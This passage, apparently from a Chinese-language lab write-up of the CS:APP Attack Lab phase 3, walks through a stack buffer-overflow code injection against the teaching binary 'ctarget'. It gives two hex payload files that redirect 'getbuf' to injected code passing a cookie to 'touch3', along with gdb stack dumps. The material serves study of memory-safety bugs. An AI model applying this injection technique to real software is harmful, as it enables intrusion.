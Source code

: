 与 phase 2 类似，我们需要用注入代码的起始位置地址（即储存字符串的地址）覆盖 `getbuf` 函数的返回地址。但除此之外，我们还需要将 cookie 储存在某个可控且安全的位置，并且将其地址 `mov` 给 `%rdi` 。

`getbuf` 函数在栈上分配的 0x18 字节的空间似乎足够存放我们注入的代码和 cookie，我们可以将 cookie 存放在栈上的局部变量 `buf` 中。但当调用 `hexmatch` 和 `strncmp` 这两个函数时，它们会将数据压入栈中，从而可能覆盖一部分原本存储着 `getbuf` 函数所用缓冲区的内存。

我们先尝试将 cookie 存放在 `buf` 中：

```text
/* phase3.txt */
48 c7 c7 f5 c3 66 55 	/* mov    $0x5566c3f5, %rdi */
68 8d 1d 40 00       	/* push   $0x401d8d */
c3                   	/* ret */
32 34 63 38 63 65 36 36 00 /* cookie string "24c8ce66" */
00 00
e8 c3 66 55 00 00 00 00 /* Address of injected code */
```

```bash
./hex2raw < phase3.txt > phase3.raw
```

启动调试，观察栈空间的变化：

```bash
gdb ctarget
b touch3
layout asm
layout regs
r < phase3.raw
```

在调用 `hexmatch` 函数前后，分别执行 `x/20x 0x5566c3e8` ，查看栈空间内容：

```text
(gdb) x/20x 0x5566c3e8
0x5566c3e8:	0x74747474	0x74747474	0x74747474	0x74747474
0x5566c3f8:	0x00000000	0x00000000	0x00000000	0x00000000
0x5566c408:	0x0041d668	0x00000000	0x0040010d	0x00000000
0x5566c418:	0x55855f50	0x00000000	0x004024fa	0x00000000
0x5566c428:	0x00000000	0x00000000	0xf4f4f4f4	0xf4f4f4f4
0x5566c438:	0xf4f4f4f4	0xf4f4f4f4	0xf4f4f4f4	0xf4f4f4f4
(gdb) x/20x 0x5566c3e8
0x5566c3e8:	0x55855f58	0x00000000	0x0040458a	0x00000000
0x5566c3f8:	0x00401f0d	0x00000000	0x00400000	0x00000000
0x5566c408:	0x55855fad	0x00000000	0x004024fa	0x00000000
0x5566c418:	0x00000000	0x00000000	0xf4f4f4f4	0xf4f4f4f4
0x5566c428:	0xf4f4f4f4	0xf4f4f4f4	0xf4f4f4f4	0xf4f4f4f4
```

对比发现，在调用 `hexmatch` 函数后，栈空间的内容发生了变化，原本存储 cookie 的位置被覆盖了。因此，我们需要为 cookie 寻找一个更安全的位置，发现
`0x5566c414` 位置起的 12 个字节全为 0x00 ，且在调用 `hexmatch` 函数前后没有发生变化，我们可以将 cookie 存放在该位置。

同时为了防止会上层栈帧的覆盖造成不必要的影响，我们不改动除 cookie 之外的内容。

```text
/* phase3.txt */
48 c7 c7 14 c4 66 55 	/* mov    $0x5566c414, %rdi */
68 8d 1d 40 00       	/* push   $0x401d8d */
c3                   	/* ret */
00 00 00
00 00 00 00 00 00 00 00
e8 c3 66 55 00 00 00 00 /* Address of injected code */
00 5f 68 55 00 00 00 00
fa 24 40 00
32 34 63 38 63 65 36 36 00 /* cookie string "24c8ce66" */
```
